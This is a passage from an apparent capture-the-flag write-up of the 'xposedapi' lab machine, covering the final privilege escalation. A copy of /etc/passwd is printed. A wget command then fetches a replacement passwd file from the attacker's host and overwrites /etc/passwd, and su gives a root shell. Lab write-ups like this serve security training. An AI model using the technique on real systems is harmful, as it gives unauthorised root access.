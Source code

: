 ```
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
clumsyadmin:x:1000:1000::/home/clumsyadmin:/bin/sh
```

We just need to fetch this copy with `wget` and save it to `/etc/passwd` with the `-O` option.

```
clumsyadmin@xposedapi:/home/clumsyadmin$ wget http://192.168.49.224/passwd.bak -O /etc/passwd
--2021-06-12 13:40:06--  http://192.168.49.224/passwd.bak
Connecting to 192.168.49.224:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1502 (1.5K) [application/x-trash]
Saving to: '/etc/passwd'

/etc/passwd                                   100%[==============================================================================================>]   1.47K  --.-KB/s    in 0.001s  

2021-06-12 13:40:06 (1.95 MB/s) - '/etc/passwd' saved [1502/1502]

clumsyadmin@xposedapi:/home/clumsyadmin$ 
```

Let us now switch over to root.

```
clumsyadmin@xposedapi:/home/clumsyadmin$ su - root 
Password: 
root@xposedapi:~# id && hostname; date
uid=0(root) gid=0(root) groups=0(root)
xposedapi
Sat 12 Jun 2021 01:41:12 PM EDT
root@xposedapi:~# 
```

And we get shell as `root`. 

![](assets/img/xposedapi-pg/meme3.gif)
